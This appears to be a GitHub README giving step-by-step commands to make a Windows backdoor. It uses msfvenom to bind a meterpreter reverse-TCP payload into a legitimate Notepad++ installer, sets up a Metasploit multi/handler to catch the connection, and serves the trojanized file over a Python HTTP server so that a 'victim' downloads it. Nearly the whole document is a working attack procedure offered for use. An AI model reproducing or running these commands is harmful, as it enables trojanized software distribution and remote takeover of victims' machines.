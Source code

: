 # 👉Create Basic Backdoor & Combine Payload with Legitimate EXE for reverse TCP connection 🔐✔
```
sudo git clone https://github.com/PushMeUp97/CombinePayloadwithLegitimateEXE.git
sudo chmod 777 CombinePayloadwithLegitimateEXE
cd CombinePayloadwithLegitimateEXE
```
# Create simple backdoor using msfvenom
```
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR HOST IP> LPORT=<YOUR HOST PORT> -x npp.8.7.4.Installer.x64.exe -f exe -o Payload_Legit.exe
```
# Configure the Mmlti-handler to catch the reverse connection:

```
msfconsole
```
```use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR HOST IP>
set LPORT LPORT=<YOUR HOST PORT>
show options
exploit
```
# Hosting Service the current directory to allow victim to download software
```
python3 -m http.server 8000
